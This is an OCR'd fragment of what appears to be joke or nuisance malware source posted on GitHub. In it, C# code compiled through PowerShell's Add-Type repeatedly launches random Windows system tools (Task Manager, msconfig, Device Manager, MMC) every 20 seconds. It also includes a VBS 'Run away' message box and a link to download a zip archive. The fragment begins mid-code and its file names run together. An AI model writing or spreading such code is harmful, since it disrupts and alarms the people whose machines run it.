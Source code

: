                     }
                }
                {
                    if (rnd_pgm == 40)
                    {
                        Process.Start("explorer");
                    }
                }
                {
                    if (rnd_pgm == 41)
                    {
                        Process.Start("taskmgr");
                    }
                }
                {
                    if (rnd_pgm == 42)
                    {
                        Process.Start("msconfig");
                    }
                }
                {
                    if (rnd_pgm == 43)
                    {
                        Process.Start("mspaint");
                    }
                }
                {
                    if (rnd_pgm == 44)
                    {
                        Process.Start("devmgmt.msc");
                    }
                }
                {
                    if (rnd_pgm == 45)
                    {
                        Process.Start("control");
                    }
                }
                {
                    if (rnd_pgm == 46)
                    {
                        Process.Start("mmc");
                    }
                }
 Thread.Sleep(20000);
        }
}
}
"@
 Add-Type -TypeDefinition $source -Language CSharp
 [Win32]::open()
 mong.vbsSource code
 msgbox "Run away"
 [09812.zip](https://github.com/iakama/09812.zip/files/8189981/09812.zip)
